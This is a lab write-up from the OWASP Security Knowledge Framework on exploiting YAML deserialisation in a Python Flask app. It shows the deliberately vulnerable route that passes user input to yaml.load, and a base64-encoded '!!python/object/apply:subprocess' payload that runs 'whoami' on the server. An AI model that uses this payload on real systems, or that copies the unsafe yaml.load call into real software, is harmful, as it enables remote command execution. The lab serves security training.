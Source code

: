 # Python - Deserialisation Yaml (DES-Yaml)

## Running the app

```
$ sudo docker pull blabla1337/owasp-skf-lab:des-yaml
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:des-yaml
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Running the app Python3

First, make sure python3 and pip are installed on your host machine. After installation, we go to the folder of the lab we want to practise "i.e /skf-labs/XSS/, /skf-labs/jwt-secret/ " and run the following commands:

```
$ pip3 install -r requirements.txt
```

```
$ python3 <labname>
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

![Docker image and write-up thanks to ContraHack!](<../../.gitbook/assets/ing\_primary\_logo (2).png>)

## Reconnaissance

This application is using a yaml serialised object to display the content in the HTML. As you can see below, the default base64 encoded string is loaded as part of the URL.

![](../../.gitbook/assets/DES-Yaml1\_2.png)

By Base64 decoding you can see it uses a key value pair -> foo : value

![](../../.gitbook/assets/DES-Yaml1\_3.png)

Also we can have a look at the documentation of the Python implementation for the .yaml file here:

{% embed url="https://yaml.readthedocs.io/en/latest/detail.html" %}

The application works by loading the Base64 encoded string to be processed by the application and use YAML to parse parse the key value to display the content in the application as shown below.

![](../../.gitbook/assets/DES-Yaml1\_1.png)

In the code example the _input_ query string parameter is used to read the input value but as you can see this is under the users control. Instead of just sending the intended text over the request, a potential attacker could abuse this function to also supply his own crafted yaml that the attacker controls.

```python
@app.route("/information/<input>", methods=['GET'])
def deserialization(input):
    try:
            if not input:
                return render_template("information/index.html")
            yaml_file = base64.b64decode(input)
            content = yaml.load(yaml_file)
    except:
            content = "The application was unable to  to deserialize the object!"
    return render_template("index.html", content = content['yaml'])
```

## Exploitation

### Step 1

A potential attacker can now tamper the Base64 encoded yaml parameter that will be parsed by the application.

Let's try to craft or own yaml object and check whether the application will accept it or not.

```yaml
yaml: woop woop
```

Encode it in Base64 and put it in place the original yaml object.

```
eWFtbDogd29vcCB3b29w
```

![](../../.gitbook/assets/DES-Yaml1\_4.png)

As you can see our yaml object was accepted and parsed by the application.

When we will search on Python Yaml injections on the internet we will learn that it's possible in Yaml and the Python implementation to invoke a subprocess that will allow us to excecute commands. To perform this type of attack we need to use the following key value pair in our evil.yml file.

```yaml
yaml: !!python/object/apply:subprocess.check_output ["whoami"]
```

Base64:

```
eWFtbDogISFweXRob24vb2JqZWN0L2FwcGx5OnN1YnByb2Nlc3MuY2hlY2tfb3V0cHV0IFsnd2hvYW1pJ10=
```

Now when we submit the new yaml object we can see it launched the subprocess and excecuted the "whoami" command and displayed the outcome in the application.

![](../../.gitbook/assets/DES-Yaml1\_5.png)

## Additional sources

{% embed url="https://www.owasp.org/index.php/Deserialization_Cheat_Sheet#Python" %}
